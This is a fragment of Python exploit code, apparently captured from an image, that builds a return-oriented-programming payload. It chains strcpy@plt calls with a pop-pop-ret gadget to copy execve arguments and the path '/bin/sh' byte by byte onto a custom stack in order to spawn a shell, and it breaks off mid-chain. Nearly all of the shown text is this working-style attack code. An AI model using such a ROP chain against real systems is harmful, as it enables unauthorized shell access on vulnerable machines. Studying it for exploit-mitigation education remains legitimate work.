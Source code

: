 ```py
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg1_oct3)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg1_oct2)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg1_oct1)
#Below stack frames are for strcpy (to copy execve_arg2  to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg2_oct4)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg2_oct3)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg2_oct2)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg2_oct1)
#Below stack frames are for strcpy (to copy execve_arg3  to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_null_arg)
#Below stack frame is for strcpy (to copy execve path "/bin/sh" to custom stack @ loc 0x804ac60)
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct1)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
```